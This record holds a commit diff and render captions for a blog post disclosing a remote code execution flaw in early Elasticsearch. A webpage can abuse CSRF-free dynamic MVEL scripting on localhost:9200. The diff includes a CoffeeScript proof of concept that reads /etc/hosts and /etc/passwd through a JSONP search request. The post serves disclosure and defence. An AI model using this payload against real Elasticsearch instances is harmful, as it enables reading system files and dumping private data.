

Before and after one commit to gondo/bouk.github.io, a Jekyll site: the page built from _posts/2014-05-01-elasticsearch-rce.md, in a window 1280 px wide and 1400 px high. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Last minute edits

```diff
--- a/_posts/2014-05-01-elasticsearch-rce.md
+++ b/_posts/2014-05-01-elasticsearch-rce.md
@@ -1,6 +1,6 @@
 ---
 layout: post
-title: Insecure default in Elasticsearch allows remote code execution
+title: Insecure default in Elasticsearch enables remote code execution
 
 ---
 
@@ -10,11 +10,11 @@
 There are a couple of problems which enable the proof of concept I'm going to present:
 
 * Elasticsearch has no access roles or authentication mechanism. This means that you have full control over a cluster the moment you connect to it.
-* The API for Elasticsearch is accessible over [HTTP](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-http.html) and provides no CSRF protection whatsoever.
-* It contains a [feature](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html#_disabling_dynamic_scripts) which makes it possible to evaluate expressions as part of a query. An example usage of this feature is to specify a custom scoring function. It uses the [MVEL](http://mvel.codehaus.org/) language by default.
-* Up to version 1.2 [dynamic scripting](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html#_disabling_dynamic_scripts) (which makes it possible to send scripts to the cluster on the fly) was enabled by default. As mentioned in the documentation, this feature gives someone the same priviliges as the user that runs Elasticsearch. MVEL has no sandboxing at all.
+* The API for Elasticsearch is accessible over <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-http.html" target="_blank">HTTP</a> and provides no CSRF protection whatsoever.
+* It contains a <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html" target="_blank">feature</a> which makes it possible to evaluate expressions as part of a query. An example usage of this feature is to specify a custom scoring function while searching through documents. It uses the [MVEL](http://mvel.codehaus.org/) language by default.
+* Up to version 1.2 <a href="http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/modules-scripting.html#_enabling_dynamic_scripting" target="_blank">dynamic scripting</a> (which makes it possible to send scripts to the cluster on the fly) was enabled by default. As mentioned in the documentation, this feature gives someone the same priviliges as the user that runs Elasticsearch. MVEL has no sandboxing at all.
 
-There are no issues up to this point as long as you properly follow the documentation and make sure your Elasticsearch cluster is not available from the outside world. There is one target that isn't mentioned in the documentation though: The Developer! When you're developing an application that uses Elasticsearch you probably have it running on your machine. The default port is `9200`, and because there is no CSRF protection any webpage can just connect to the cluster using `localhost:9200` as the host.
+There are no issues up to this point as long as you properly follow the documentation and make sure your Elasticsearch cluster is not available from the outside world. There is one target that isn't mentioned in the documentation though: The Developer! When you're developing an application that uses Elasticsearch, you probably have it running on your machine. The default port is `9200` and because there is no CSRF protection any webpage can just connect to the cluster using `localhost:9200` as the host.
 
 ## PoC
 The following script will read `/etc/hosts` and `/etc/passwd` from a user visiting a webpage and display the contents in the browser.
@@ -27,8 +27,9 @@
   new Scanner(new File("#{filename}")).useDelimiter("\\\\Z").next();
   """
 
+# This PoC assumes that there is at least one document stored in Elasticsearch, there are ways around that though
 $ ->
-  exploit = {
+  payload = {
     "size": 1,
     "query": {
       "filtered": {
@@ -41,11 +42,10 @@
     "script_fields": {}
   }
 
+  for filename in ["/etc/hosts", "/etc/passwd"]
+    payload["script_fields"][filename] = {"script": read_file(filename)}
 
-  for filename in ["/etc/hosts", "/etc/passwd"]
-    exploit["script_fields"][filename] = {"script": read_file(filename)}
-
-  $.getJSON "http://localhost:9200/_search?source=#{encodeURIComponent(JSON.stringify(exploit))}&callback=?", (data) ->
+  $.getJSON "http://localhost:9200/_search?source=#{encodeURIComponent(JSON.stringify(payload))}&callback=?", (data) ->
     console.log(data)
     for hit in data["hits"]["hits"]
       for filename, contents of hit["fields"]
@@ -75,9 +75,9 @@
 
 ## Additional targets
 
-Disabling scripting will prevent code execution, but that still leaves us with the issue of being able to query and administer the instance without limit. A webpage can easily dump the whole database running on your machine, sensitive data included.
+Disabling scripting will prevent code execution, but that still leaves us with the issue of being able to query and administer the instance without limit. A webpage can easily dump the whole database running on your machine, sensitive data included. This is impossible to fix by the Elasticsearch developers without adding authentication or CSRF protection.
 
-If an attacker can figure out the internal address of your production Elasticsearch instance (hint: assume they can), you're also open to leaking your production data. If your development machine is connected to a VPN which provides access to the Elasticsearch cluster, an attacker can easily query or [shut down](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/cluster-nodes-shutdown.html) your cluster simply by making you visit a webpage.
+If an attacker can figure out the internal address of your production Elasticsearch instance, you're also open to leaking your production data. If your development machine is connected to a VPN which provides access to the Elasticsearch cluster, an attacker can easily query or [shut down](http://www.elasticsearch.org/guide/en/elasticsearch/reference/current/cluster-nodes-shutdown.html) your cluster simply by making you visit a webpage.
 
 ### Notes
 
```
Also changed, not shown: blog/elasticsearch-rce/poc.html (+5 -5 lines).
